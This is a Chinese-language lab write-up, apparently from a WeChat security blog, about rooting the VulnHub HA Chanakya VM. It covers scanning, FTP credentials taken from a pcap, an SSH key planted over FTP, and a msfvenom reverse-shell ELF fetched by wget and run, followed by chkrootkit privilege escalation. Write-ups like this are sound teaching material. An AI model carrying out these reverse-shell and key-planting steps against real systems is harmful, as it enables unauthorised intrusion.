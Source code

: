 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s?\_\_biz=MzI2ODU2MjM0OA==&mid=2247488146&idx=1&sn=ef4591a1a374e90bd8a080a8a031dbda&chksm=eaece851dd9b6147421fbcfca90462d31229bda17911aa3dc44e333c5755a3ca754f5b4f8b6a&mpshare=1&scene=1&srcid=1018mJhvHxMOzG8jdpTTsFE1&sharer\_sharetime=1602994498770&sharer\_shareid=c051b65ce1b8b68c6869c6345bc45da1&key=d1b2c53fcb9e77eeedbdc16b857a7b0e1bfd5f10d1466d33354874bdb892c41bd3c99b82637dd1d939b499b2b2bb2ad2a666a7e3f3ea9956a824eed6093591cf8016e48bb880ef263f62283903f950fd852d4a5fa659250c9e82a71289263cbdff839c3b39efdea87ca956889bb34e62b43fe7b8e13f3e4097ce17cb85b56e77&ascene=1&uin=ODk4MDE0MDEy&devicetype=Windows+10+x64&version=6300002f&lang=zh\_CN&exportkey=ARKaGAc89PCA5JOWuT6SRkQ%3D&pass\_ticket=fNc1mNErgeHhn4jm0DcjBlD5hkXepEyD08VA%2B16wYw5QmvtETgayFa%2BrZuz3ot9i&wx\_header=0)

****文章源自【字节脉搏社区】-字节脉搏实验室****

**作者-purplet**

**扫描下方二维码进入社区：**

**![](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnK3Fc7MgHHCICGGSg2l58vxaP5QwOCBcU48xz5g8pgSjGds3Oax0BfzyLkzE9Z6J4WARvaN6ic0GRQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)**

**HackTheNmae：HA Chanakya**

**The Mastermind that took down kingdoms is**

**back and this time he has created a puzzle that would make you scratch**

**you brains! It’s time to face Chanakya.**

**Will you be able to solve this Boot to Root and prove that you are wiser?**

**ENUMERATION IS THE KEY!!!!!**

**下载地址：https://www.vulnhub.com/entry/ha-chanakya,395/**

**难度：中等**

**目的：拿到 192.168.194 .128的 Root 权限**

**靶机IP：192.168.194.128**

**攻击机器IP：192.168.194.129**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)****

**一、信息收集**

**因为是在一个局域网中搭建的，且都通过NAT模式连接；已知KALI的IP为192.168.194.129，所以其他所有以NAT模式连接的机器都将分配C段IP。利用nmap的TCP半开放扫描探测目标机器。  
**

**nmap -sS 192.168.194.0/24**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)****

![](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnKj0icLmwNGQ4YOumLQuHzBV9MXxI8xhXTib7O6NGevTqktX9773rUHceIpqAme9VdxCxLO6wnyvrBA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**发现目标机器开放21 22 80端口**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)****

**二、渗透初始**

**利用dirsearch和dirb对网站目录进行扫描，得到一个敏感txt文件和两个文件夹**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)****

![](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnKj0icLmwNGQ4YOumLQuHzBVTmKRd7oy8fWeF8prLqOIKoGhDCftubaFRw8ic51YqQcJqD1WrpicNllg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnKj0icLmwNGQ4YOumLQuHzBVw8MKzRqhEuc8plqI29vZnSqD1KNo2tGboSW54aqBD311f5Hb0uzK3w/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**访问http://192.168.194.128/abuse.txt**

**后得到"nfubxn.cpncat"内容，rot13解密后得到：**

**"ashoka.pcapng"，访问 http://192.168.194.128/ashoka.pcapng**

**下载得到该流量包。利用WireShark加载打开发现存在FTP协议登录的流量包信息，并找到登录FTP服务的用户名和密码ashoka/kautilya**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)****

![](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnKj0icLmwNGQ4YOumLQuHzBV4pU7NgFjcRyacAa4CDcMSKRicEATmb1DHXPiajufnaweQDf1Q1H7QibXQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**访问ftp://192.168.194.128输入用户名密码后登录**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)****

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**拿到FTP服务器后原本想上传个elf马执行回弹Shell，但是后来发现FTP服务上也没法运行啊。后来在网上找了一下，可以从 SSH 中的 id\_rsa.pub 下手！原理是：在KALI生成一个id\_rsa.pub的密匙，然后通过 FTP 来上传我们的密匙，因为它服务器上有我们的密匙，从而我们就可以用 SSH 来进行连接！**

**在KAli上生成公钥**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**然后我们把 id\_rsa.pub 里的内容重定向到 authorized\_keys 文件中，再移动到 /root/ 目录下，方便 FTP 上传：**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**Linux下登录FTP：ftp 192.168.194.128 输入用户名和密码**

**创建一个 .ssh 目录，上传 authorized\_keys 文件， 再上传 authorized\_keys 文件**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**ssh ashoka@192.168.194.128 输入yes之后成功登入**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

三、权限提升

**现在已经拿到一个Shell了，但是不是root权限的，接下来利用msfvenom在root目录下生成一个elf的木马。  
**

**msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=192.168.194.129 LPORT=6666 -f elf > shell.elf**

**在KAli的root目录下开启一个HTTP服务 python -m SimpleHTTPServer**

**默认开启8000端口，接下来通过wget下载shell.elf文件"wget**

**http://192.168.194.129:8000/shell.elf"，再chmod 777 shell.elf使其具有可执行权限。**

**这里踩了一个坑，通过FTP服务上传了shell.elf，结果无法运行，这是因为FTP服务上传的文件是root权限了，而通过wget下载的却是以ashoka用户身份下载。然后开启MSF。**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**补充：生成x86的反弹shell马是因为目标机器的系统版本是x86的，通过uname -a查看得到**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**拿到meterpreter的session后，使用POST模块查看可提权模块**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**接着bg将meterpreter的session放到后台**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**提权一波结果失败了，尝试使用一下命令注入：**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**run后会生成一段python代码，将这段代码放到目标及执行后会回弹一个Shell，但是回弹后的权限依然是普通用户权限**

**最后尝试利用chkrootkit模块提权，该模块有crontab，会定期以root身份执行/tmp/update文件。注：该模块使用前提是目标机器是Linux系统**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**python -c 'import pty;pty.spawn("/bin/bash")'**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**通知！**

**公众号招募文章投稿小伙伴啦！只要你有技术有想法要分享给更多的朋友，就可以参与到我们的投稿计划当中哦~感兴趣的朋友公众号首页菜单栏点击【商务合作-我要投稿】即可。期待大家的参与~**

**![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)**

**记得扫码**

**关注我们**